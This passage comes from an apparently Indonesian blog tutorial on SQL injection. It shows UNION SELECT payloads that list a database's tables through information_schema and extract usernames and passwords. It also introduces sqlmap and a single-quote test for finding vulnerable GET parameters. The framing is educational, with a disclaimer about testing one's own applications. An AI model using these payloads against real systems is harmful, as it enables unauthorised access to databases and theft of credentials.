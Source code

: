 jika di gabungkan menjadi begini

    select 
     judul, highlight, deskripsi, tag 
    from tbl_artikel 
    where id = 1 **union select 1,concat(table_name),3,4 from information_schema.tables where table_schema
    ="CRACKING";**

maka hasilnya akan memberitahukan semua list tabel yang tersedia pada database “CRACKING” (contoh database yang dicoba)

![hasilnya](https://cdn-images-1.medium.com/max/2000/1*7wGv8Eq2DT7Nk2jfUwL0BQ.png)*hasilnya*

artinya memungkinkan hacker melakukan ekstrak data lainnya pada query tersebut contoh lainnya pada query ini untuk menampilkan username dan password pada tabel

    select judul, highlight, deskripsi, tag from tbl_artikel where id = 1 union select 1,concat(username,0x3a,
    password),3,4 from tbl_user;

![](https://cdn-images-1.medium.com/max/2000/1*BULmzjJzS-yrvASQxTBCRw.png)

Mungkin ribet ya, simple nya gini, kalo nyatanya bisa seperti ini.

![](https://cdn-images-1.medium.com/max/2000/1*KimkYKKuir6u4G1sFWQf_Q.png)

Serangan SQL Injection ini paling umum, paling banyak varian nya, paling random banget muncul nya, bahkan banyak tools tools hacking yang sesimple masukkan URL dan langsung ekstrak database salah satunya Havij (one click hack, paling sering dipake noob hacker buat merasa lebih powerfull), BFSQL, paling the best itu [SQLMap](http://sqlmap.org/). Buat kawan kawan yang penasaran dan pengen coba sendiri, saya saranin menggunakan SQLMap

#*Attention disini penulis share tentang SQLMap khusus untuk testing aplikasi kalian sendiri buat kepentingan keamanan, kalo yang lain tanggung jawab masing masing*

### Test kelemahan aplikasi menggunakan SQL Map

Bahan :

> python 2.6.x atau 2.7.x

> install library python [requests](http://docs.python-requests.org/en/master/)

> clone dari project [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

Kalau udah siap semua coba jalankan perintah **python sqlmap.py**

![](https://cdn-images-1.medium.com/max/2000/1*nVJDn2mwzrH29ifFmwqnZA.png)

lalu ada beberapa cara untuk mendefinisikan fungsi/ URL yang lemah :

1. berupa inputan dari user

1. untuk method GET jika menggunakan petik satu ( ‘ ) akan muncul error mysql seperti **localhost/?parent_id=91&v=portal&page=&id=93'` **artinya fungsi ini ada potensi lemah
